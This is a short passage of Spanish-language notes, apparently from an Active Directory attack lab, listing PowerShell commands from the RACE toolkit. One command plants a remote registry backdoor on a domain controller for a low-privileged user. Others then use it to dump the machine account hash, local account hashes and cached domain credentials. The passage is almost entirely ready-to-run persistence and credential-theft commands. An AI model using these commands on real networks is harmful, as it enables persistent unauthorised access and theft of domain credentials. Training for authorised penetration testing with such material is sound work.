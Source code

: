 `Set-RemotePSRemoting -SamAccountName studentuser1 -ComputerName us-dc -Remove`

**Remote Registry**

Uso del kit de herramientas RACE, con admin priv en la maquina remota:

`Add-RemoteRegBackdoor -ComputerName us-dc -Trustee studentuser1 -Verbose`

Como studentuser1, recupere el hash de la cuenta de la máquina:

`Get-RemoteMachineAccountHash -ComputerName us-dc -Verbose`

Recuperar el hash de la cuenta local:

`Get-RemoteLocalAccountHash -ComputerName us-dc -Verbose`

Recuperar las credenciales almacenadas en caché del dominio:

`Get-RemoteCachedCredential -ComputerName us-dc -Verbose`